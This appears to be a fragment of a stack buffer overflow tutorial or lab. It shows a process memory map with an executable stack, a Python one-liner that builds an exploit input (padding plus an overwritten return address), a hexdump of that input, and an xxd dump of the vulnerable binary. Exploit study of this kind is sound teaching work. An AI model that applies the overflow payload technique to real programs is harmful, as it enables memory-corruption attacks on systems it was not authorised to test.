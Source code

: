 ```bash
7ffff7ecf000-7ffff7f4b000 r-xp 0000e000 08:03 3697436                    /usr/lib/x86_64-linux-gnu/libm.so.6
7ffff7f4b000-7ffff7fa6000 r--p 0008a000 08:03 3697436                    /usr/lib/x86_64-linux-gnu/libm.so.6
7ffff7fa6000-7ffff7fa7000 r--p 000e4000 08:03 3697436                    /usr/lib/x86_64-linux-gnu/libm.so.6
7ffff7fa7000-7ffff7fa8000 rw-p 000e5000 08:03 3697436                    /usr/lib/x86_64-linux-gnu/libm.so.6
7ffff7fbb000-7ffff7fbd000 rw-p 00000000 00:00 0 
7ffff7fbd000-7ffff7fc1000 r--p 00000000 00:00 0                          [vvar]
7ffff7fc1000-7ffff7fc3000 r-xp 00000000 00:00 0                          [vdso]
7ffff7fc3000-7ffff7fc5000 r--p 00000000 08:03 3696447                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffff7fc5000-7ffff7fef000 r-xp 00002000 08:03 3696447                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffff7fef000-7ffff7ffa000 r--p 0002c000 08:03 3696447                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffff7ffb000-7ffff7ffd000 r--p 00037000 08:03 3696447                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffff7ffd000-7ffff7fff000 rw-p 00039000 08:03 3696447                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffffffde000-7ffffffff000 rwxp 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

Output hexidecimal file content:
```bash
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*61 + b'\x0e\xe5\xff\xff\xff\x7f\x00\x00' + b'\n')" > exploit.in
$ hexdump exploit.in 

0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 0e41 ffe5
0000040 ffff 007f 0a00                         
0000046

```

Hexidecimal binary file view:
```bash
$ xxd stack_overflow

00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0300 3e00 0100 0000 e010 0000 0000 0000  ..>.............
00000020: 4000 0000 0000 0000 d036 0000 0000 0000  @........6......
00000030: 0000 0000 4000 3800 0d00 4000 1f00 1e00  ....@.8...@.....
00000040: 0600 0000 0400 0000 4000 0000 0000 0000  ........@.......
00000050: 4000 0000 0000 0000 4000 0000 0000 0000  @.......@.......
00000060: d802 0000 0000 0000 d802 0000 0000 0000  ................
00000070: 0800 0000 0000 0000 0300 0000 0400 0000  ................
00000080: 1803 0000 0000 0000 1803 0000 0000 0000  ................
00000090: 1803 0000 0000 0000 1c00 0000 0000 0000  ................
000000a0: 1c00 0000 0000 0000 0100 0000 0000 0000  ................
000000b0: 0100 0000 0400 0000 0000 0000 0000 0000  ................
000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000d0: 8806 0000 0000 0000 8806 0000 0000 0000  ................
000000e0: 0010 0000 0000 0000 0100 0000 0500 0000  ................
000000f0: 0010 0000 0000 0000 0010 0000 0000 0000  ................
00000100: 0010 0000 0000 0000 d901 0000 0000 0000  ................
00000110: d901 0000 0000 0000 0010 0000 0000 0000  ................
00000120: 0100 0000 0400 0000 0020 0000 0000 0000  ......... ......
```
